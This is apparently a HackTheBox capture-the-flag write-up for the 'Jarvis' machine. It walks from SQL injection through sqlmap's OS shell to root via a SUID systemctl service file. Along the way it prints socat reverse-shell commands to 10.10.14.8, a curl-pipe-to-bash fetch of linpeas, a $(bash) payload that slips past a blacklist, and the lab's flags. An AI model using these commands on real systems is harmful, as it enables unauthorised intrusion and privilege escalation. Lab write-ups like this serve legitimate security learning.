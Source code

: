 ```yaml
---
title: "Jarvis - HackTheBox"
date: 2019-11-09T18:07:25+02:00
tags: [SQL injection, systemctl, misconfiguration, SUID]
---
```


## Information gathering

Let's run a quick nmap scan:
```
$ nmap -A -T4 10.10.10.143
Starting Nmap 7.80 ( https://nmap.org ) at 2019-10-22 20:09 EDT
Nmap scan report for 10.10.10.143
Host is up (0.056s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4p1 Debian 10+deb9u6 (protocol 2.0)
| ssh-hostkey:
|   2048 03:f3:4e:22:36:3e:3b:81:30:79:ed:49:67:65:16:67 (RSA)
|   256 25:d8:08:a8:4d:6d:e8:d2:f8:43:4a:2c:20:c8:5a:f6 (ECDSA)
|_  256 77:d4:ae:1f:b0:be:15:1f:f8:cd:c8:15:3a:c3:69:e1 (ED25519)
80/tcp open  http    Apache httpd 2.4.25 ((Debian))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Stark Hotel
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.76 seconds
```

## Exploration

The website is a hotel presentation and trying to run `gobuster` on it get us
banned and the site will respond with this message:

> Hey you have been banned for 90 seconds, don't be bad

Nevermind, let's wait a bit.

Exploring the website, we can see that the link to each room uses a `GET`
parameter to indicate the number of the room, for example:
```
http://10.10.10.143/room.php?cod=1
```
We can try to see if it's vulnerable to `SQL` injection by visiting the
following URL:
```
http://10.10.10.143/room.php?cod=1337 or 1=1
```
It will return the first room even if the `cod` parameter does not match,
because the `or 1=1` condition, makes the query looks like (it's an assumption):
```
SELECT * FROM rooms where code = 1337 or 1=1
```

## Getting a shell

We can try to get a shell using `sqlmap` by using the `--os-shell` option:
```
sqlmap -u http://10.10.10.143/room.php?cod=1 --os-shell --random-agent
```
![](/images/hackthebox/jarvis/www-data-shell.png)

And it does work! We have a shell as `www-data` user.

We can get a better shell than this one by running a `socat` listener on our
machine with this command:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1337
```
and connect to it with this command:
```
$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1337
```

## Further enumeration

The following step is to run an enumeration script on the machine, I choose 
[linpeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite).

So after running a web server on our machine with `python2.7 -m SimpleHTTPServer
8080` let's run the script on the remote machine with `curl
http://10.10.14.8:8080/linpeas.sh | bash`.

There seems to be an interesting command that we can run as the user `pepper`
without providing it's password:
![](/images/hackthebox/jarvis/simpler.png)

Here's the code of `simpler.py` (I removed the useless parts):
```python
#!/usr/bin/env python3
from datetime import datetime
import sys
import os
from os import listdir
import re

def show_help():
    message='''
********************************************************
* Simpler   -   A simple simplifier ;)                 *
* Version 1.0                                          *
********************************************************
Usage:  python3 simpler.py [options]

Options:
    -h/--help   : This help
    -s          : Statistics
    -l          : List the attackers IP
    -p          : ping an attacker IP
    '''
    print(message)

def exec_ping():
    forbidden = ['&', ';', '-', '`', '||', '|']
    command = input('Enter an IP: ')
    for i in forbidden:
        if i in command:
            print('Got you')
            exit()
    os.system('ping ' + command)
```

It's a wrapper to the `ping` command, and it basically pings any host that we
provide as input. There are some characters that we can not use as input, but
luckily we can use `$`, `(` and `)`.  
We can easily get a shell by using `$(bash)` as the ip to connect to:
![](/images/hackthebox/jarvis/user-shell.png)

And then let's get the flag:
```
pepper@jarvis:/var/www/Admin-Utilities$ cat /home/pepper/user.txt
2afa36c4f05b37b34259c93551f5c44f
```

## Privilege escalation

By running again `linpeas.sh` we stumble upon an unusual executable who has the
`SUID` bit set, `systemctl`. We can exploit this to run any command as `root`, so
let's create a `systemd` service file that will gets us a reverse shell:
```
[Service]
Type=oneshot
ExecStart=/bin/bash -c "socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.8:1338"
[Install]
WantedBy=multi-user.target
```
And after setting up our `socat` listener, let's install and run the service:
```
$ systemctl link /home/pepper/shell.service
$ systemctl enable --now /home/pepper/shell.service
```

And here's our shell! Let's get the flag:
```
$ socat file:`tty`,raw,echo=0 tcp-listen:1338
root@jarvis:/# cat /root/root.txt
d41d8cd98f00b204e9800998ecf84271
```

See you in the next one! Thanks for reading!
